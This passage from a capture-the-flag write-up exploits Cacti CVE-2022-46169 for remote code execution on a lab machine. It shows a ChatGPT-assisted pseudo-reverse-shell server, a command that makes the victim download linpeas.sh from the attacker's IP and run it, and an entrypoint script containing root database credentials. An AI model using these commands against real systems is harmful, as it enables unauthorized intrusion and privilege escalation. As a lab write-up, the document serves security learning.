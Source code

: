 ### Observe the GET request from the Cacti server.
This indicates we have RCE on the victim server, but we don’t know who is executing the commands yet. We could try creating a reverse shell or piping commands into a Curl POST request to receive the output.

For some reason, I wasn’t able to create a reverse shell for this machine. So instead, I created two scripts that...

### Improved Shell for CVE-2022-46169
I used ChatGPT to help me create a Python server that acts similarly to a reverse shell. The script can be found here: ImprovedShell-for-CVE-2022-46169.

```bash
└─$ python improved_server.py -t http://10.10.11.211 -ip 10.10.14.86 -port 500
CVE-2022-46169.py found in the directory.
Server listening on port 500
Enter a command to execute: curl http://10.10.14.86:50/linpeas.sh > linpeas.sh

Reponse from Victim:

Enter a command to execute: ls -la | grep lin

Reponse from Victim:
-rw-rw-r-- 1 www-data www-data   3495 Aug 14  2022 link.php
-rw-rw-r-- 1 www-data www-data  21889 Aug 14  2022 links.php
-rw-r--r-- 1 www-data www-data      0 May 12 01:33 linpeas.output
-rw-r--r-- 1 www-data www-data 830803 May 12 02:05 linpeas.sh

Enter a command to execute: bash linpeas.sh > linpeas.output
```

## User
Linpeas points out a file located at /entrypoint.sh.

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"

if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html

if [ "${1#-}" != "$1" ]; then
    set -- apache2-foreground "$@"
fi

exec "$@"
```
